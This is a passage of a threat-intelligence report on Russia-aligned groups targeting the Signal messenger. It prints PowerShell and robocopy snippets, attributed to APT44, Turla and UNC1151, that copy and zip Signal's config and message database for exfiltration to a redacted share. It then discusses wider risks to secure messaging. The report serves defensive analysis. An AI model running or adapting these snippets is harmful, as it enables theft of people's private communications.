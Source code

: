 Figure 7: Code snippet from WAVESIGN used by APT44 to exfiltrate Signal messages

```
$TempPath = $env:tmp
$TempPath = $env:temp

$ComputerName = $env:computername
$DFSRoot = "\\redacted"
$RRoot = $DFSRoot + "resource\"

$frand = Get-Random -Minimum 1 -Maximum 10000

Get-ChildItem "C:\Users\..\AppData\Roaming\SIGNAL\config.json" | Out-File $treslocal -Append
Get-ChildItem "C:\Users\..\AppData\Roaming\SIGNAL\sql\db.sqlite" | Out-File $treslocal -Append

Get-ChildItem "C:\Users\..\AppData\Roaming\SIGNAL\config.json" | Out-File $treslocal -Append
Get-ChildItem "C:\Users\..\AppData\Roaming\SIGNAL\sql\db.sqlite" | Out-File $treslocal -Append


$file1 = $ComputerName + "_" + $frand + "sig.zip"
$zipfile = $TempPath + "\" + $file1
$resfile = $RRoot + $file1
Compress-Archive -Path "C:\Users\..\AppData\Roaming\SIGNAL\config.json" -DestinationPath $zipfile
Copy-Item -Path $zipfile -Destination $resfile -Force
Remove-Item -Path $zipfile -Force
```

Figure 8: PowerShell script used by Turla to exfiltrate Signal messages

```
C:\Windows\system32\cmd.exe /C cd %appdata% && robocopy 
"%userprofile%\AppData\Roaming\Signal" C:\Users\Public\data\signa /S
```

Figure 9: Robocopy command used by UNC1151 to stage Signal file directories for exfiltration

Outlook and Implications
------------------------

The operational emphasis on Signal from multiple threat actors in recent months serves as an important warning for the growing threat to secure messaging applications that is certain to intensify in the near-term. When placed in a wider context with other trends in the threat landscape, such as the growing commercial spyware industry and the surge of mobile malware variants being leveraged in active conflict zones, there appears to be a clear and growing demand for offensive cyber capabilities that can be used to monitor the sensitive communications of individuals who rely on secure messaging applications to safeguard their online activity.

As reflected in wide ranging efforts to compromise Signal accounts, this threat to secure messaging applications is not limited to remote cyber operations such as phishing and malware delivery, but also critically includes close-access operations where a threat actor can secure brief access to a target's unlocked device. Equally important, this threat is not only limited to Signal, but also extends to other widely used messaging platforms, including WhatsApp and Telegram, which have likewise factored into the targeting priorities of several of the aforementioned Russia-aligned groups in recent months. For an example of this wider targeting interest, see Microsoft Threat Intelligence's [recent blog post](https://www.microsoft.com/en-us/security/blog/2025/01/16/new-star-blizzard-spear-phishing-campaign-targets-whatsapp-accounts/) on a COLDRIVER (aka UNC4057 and Star Blizzard) campaign attempting to abuse the linked device feature to compromise WhatsApp accounts.  
